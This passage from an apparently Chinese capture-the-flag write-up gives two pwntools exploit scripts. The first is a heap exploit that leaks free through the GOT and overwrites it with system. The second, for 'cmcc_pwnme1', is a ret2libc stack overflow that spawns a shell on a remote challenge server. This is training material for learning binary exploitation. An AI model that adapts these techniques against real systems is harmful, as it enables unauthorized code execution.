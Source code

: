 ```python  
create(0x10,"bbbb")
payload = "/bin/sh\x00" + "a"*0x10 + '\x41'  # 不能用p64(0x41)
edit(0,payload)
delete(1)
payload = p64(0)*3 +p64(0x21)+p64(0x30)+ p64(free_got)
create(0x30,payload)
show(1)

free_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
#free_addr = u64(p.recvuntil('\n', drop=True).ljust(8, '\x00'))
libc_base = free_addr - libc.sym['free']
system_addr = libc_base + libc.sym['system']
log.success("free_addr==>" + hex(free_addr))
log.success("system_addr==>" + hex(system_addr))
payload = p64(system_addr)
edit(1,payload)
delete(0)
#gdb.attach(p)
p.interactive()
```  
## 0x16  cmcc_pwnme1  
这题未知原因要用LibcSearcher才能打通，加上用了新的模板，故做个记录  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwnme1' 
local = 0
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",28788)
elf=ELF(binary)
libc=ELF("libc6-i386_2.23-0ubuntu10_amd64.so")
def exp():
    payload = "a"*168
    payload += p32(elf.plt['puts']) 
    payload += p32(elf.sym['main'])
    payload += p32(elf.got['puts'])
    p.recvuntil(">> 6. Exit    \n")
    p.sendline("5")
    p.recvuntil("fruit:")
    p.sendline(payload)
    puts_addr = u32(p.recvuntil("\xf7")[-4:])
    libc_base = puts_addr - libc.sym['puts']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    sys_addr = libc_base + libc.sym['system']
    binsh = libc_base + libc.search("/bin/sh").next()
    p.recvuntil(">> 6. Exit    \n")
    p.sendline("5")
    p.recvuntil("fruit:")
    one_gadget = libc_base + 0xf02a4
    payload = "a"*168
    payload += p32(sys_addr)
    payload += p32(0xdeadbeef)
    payload += p32(binsh)
    p.send(payload)
    p.interactive()
```